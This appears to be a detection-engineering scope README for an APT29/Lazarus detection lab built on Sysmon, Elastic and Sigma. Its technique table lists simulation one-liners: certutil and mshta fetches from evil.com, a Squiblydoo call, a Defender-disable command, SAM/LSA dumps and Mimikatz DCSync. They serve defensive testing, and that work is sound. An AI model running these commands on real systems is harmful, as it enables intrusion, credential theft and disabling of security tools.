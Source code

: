 # TTP Scope – APT Detection Project

## Selected APT Groups

* **APT29 (Cozy Bear)** — stealthy intrusions, heavy PowerShell usage, credential access, process injection, DCSync.
* **Lazarus Group** — persistence via registry/run keys & startup folders, LOLBins (mshta, rundll32), SMB/WMI lateral movement, tool staging.

## Detection Scope & Data Sources

* **Windows endpoint telemetry** via **Sysmon** (EIDs 1/3/8/11/13) and **Security logs** (4662, 5140) shipped by **Winlogbeat** to **Elastic**.
* Rule languages by use-case: **KQL** (single events), **EQL** (sequence/correlation), **ES|QL** (hunting/aggregation).
* **Sigma is source of truth**; we adapt/compile to Elastic query languages.

## Techniques in Scope (with rule language & simulation plan)

| Technique ID  | Name                                             | Primary Log Source(s)                                                          | Rule Lang | Sim / Trigger                                                           | Why in Scope                             | Mapping to Groups  |
| ------------- | ------------------------------------------------ | ------------------------------------------------------------------------------ | --------- | ----------------------------------------------------------------------- | ---------------------------------------- | ------------------ |
| **T1059.001** | PowerShell – EncodedCommand                      | Sysmon **EID 1** (ProcessCreate)                                               | **KQL**   | `powershell.exe -enc <b64>`                                             | Common obfuscation/execution path        | APT29, Lazarus     |
| **T1053.005** | Scheduled Task Creation                          | Sysmon **EID 1**                                                               | **KQL**   | `schtasks /create /sc onlogon ...`                                      | Persistence & execution                  | Both               |
| **T1047**     | WMI Execution                                    | Sysmon **EID 1**, optional **EID 3**                                           | **KQL**   | `wmic process call create "cmd /c calc"`                                | Remote execution/lateral move            | APT29              |
| **T1105**     | Ingress Tool Transfer                            | Sysmon **EID 3** (NetworkConnect), **EID 1** (`certutil.exe`, `bitsadmin.exe`) | **KQL**   | `certutil -urlcache -f http://evil.com/evil.exe`                        | Tool download                            | Lazarus            |
| **T1547.001** | Registry Run Keys / Startup Folder Persistence   | Sysmon **EID 13** (RegistrySet), **EID 11** (FileCreate)                       | **KQL**   | `reg add HKCU\Software\...\Run /v Evil` or drop `evil.lnk` in Startup   | Lightweight persistence                  | Both               |
| **T1218.010** | Regsvr32 (Squiblydoo)                            | Sysmon **EID 1**                                                               | **KQL**   | `regsvr32 /s /u /i:http://... scrobj.dll`                               | Signed binary proxy execution            | APT29              |
| **T1218.011** | Rundll32 Proxy Execution                         | Sysmon **EID 1**                                                               | **KQL**   | `rundll32.exe javascript:...`                                           | Execution proxy                          | Both               |
| **T1218.005** | Mshta Execution                                  | Sysmon **EID 1**                                                               | **KQL**   | `mshta http://evil.com/payload`                                         | LOLBin abuse                             | Lazarus            |
| **T1112**     | Modify Registry (Security Controls / IFEO / UAC) | Sysmon **EID 13**                                                              | **KQL**   | `reg add HKLM\...\Image File Execution Options\malware.exe /v Debugger` | Defense evasion                          | Both               |
| **T1562.001** | Disable/Weaken Security Tools                    | Sysmon **EID 1**, **EID 13**                                                   | **KQL**   | `powershell Set-MpPreference -DisableRealtimeMonitoring $true`          | Disable Defender                         | Both               |
| **T1569.002** | Service Execution                                | Sysmon **EID 1**                                                               | **KQL**   | `sc create evil binpath= C:\evil.exe`                                   | Privilege escalation & persistence       | Both               |
| **T1055**     | Process Injection (CreateRemoteThread)           | Sysmon **EID 8** (ProcessAccess)                                               | **EQL**   | Atomic Red Team process injection                                       | Stealthier in-memory execution           | APT29              |
| **T1021.002** | Lateral Movement via Admin Shares                | Security **5140**, Sysmon **EID 1/11**                                         | **KQL**   | `copy evil.exe \\target\ADMIN$\`                                        | Admin share abuse                        | Lazarus            |
| **T1573**     | Encrypted C2 over TLS                            | Sysmon **EID 3** (NetworkConnect)                                              | **ESQL**                                                                  | Sim TLS beaconing with Cobalt Strike     | Hidden C2 channels | Both |
| **T1003.002** | SAM Dump                                         | Sysmon **EID 1**, **EID 11**                                                   | **KQL**   | `reg save hklm\sam sam.hiv`                                             | Credential access                        | APT29              |
| **T1003.004** | LSA Secrets Dump                                 | Sysmon **EID 1**                                                               | **KQL**   | `reg query HKLM\SECURITY\Policy\Secrets`                                | Credential access                        | APT29              |
| **T1003.006** | DCSync                                           | Security **4662**                                                              | **KQL**   | Mimikatz `lsadump::dcsync`                                              | Credential access via replication rights | APT29              |

---

## Status

* ✅ Multiple rules built, YAML + KQL/EQL/ES|QL written and tested in Elastic (Atomic Red Team used where possible).
* 🔜 Systematic testing of each rule → capture alerts + refine false positives.
* 📝 Next: finalize **ATT\&CK Navigator JSON** (mapping to APT29/Lazarus), plus detection report.

---

## Out of Scope (for this iteration)

* T1027 Obfuscated/Compressed Files & Information (content-level; high FP)
* Broader Impair Defenses (T1562 variants needing EDR policy signals beyond Defender registry/CLI)

---
